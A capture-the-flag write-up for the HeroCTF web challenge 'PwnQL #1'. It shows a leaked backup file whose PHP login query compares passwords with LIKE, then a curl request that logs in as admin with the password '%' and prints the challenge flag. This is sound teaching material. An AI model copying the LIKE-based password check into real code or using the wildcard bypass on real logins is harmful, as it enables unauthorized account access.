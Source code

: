 # PwnQL #1

### Category

Web

### Description

Login as *admin* to get the flag.

URL : http://challs.heroctf.fr:XXXX

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

After looking at the source code of the page, we can find a hint about a file named **login.php.bak**.

```html
<!-- Hello dev, do not forget to remove login.php.bak before committing your code. -->
```

We can download this file ! Let's look at this content.

```php
$sql = "SELECT * FROM users WHERE username = :username AND password LIKE :password;";
$sth = $db->prepare($sql, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
$sth->execute(array(':username' => $username, ':password' => $password));
$users = $sth->fetchAll();
```

The query is prepared, so we cannot do a SQL injection but the query itself is vulnerable. The *LIKE* function is used, so the percentage (%) will match any string of zero or more characters (any passwords).

```
username : admin
password : %

$ curl -s -X POST "http://localhost:8080/" -d "username=admin&password=%" | grep "Hero{"
    <label style='color: white;'>Welcome back admin ! Here is your flag : Hero{pwnQL_b4sic_0ne_129835}</label><br> 
```

### Flag

Hero{pwnQL_b4sic_0ne_129835}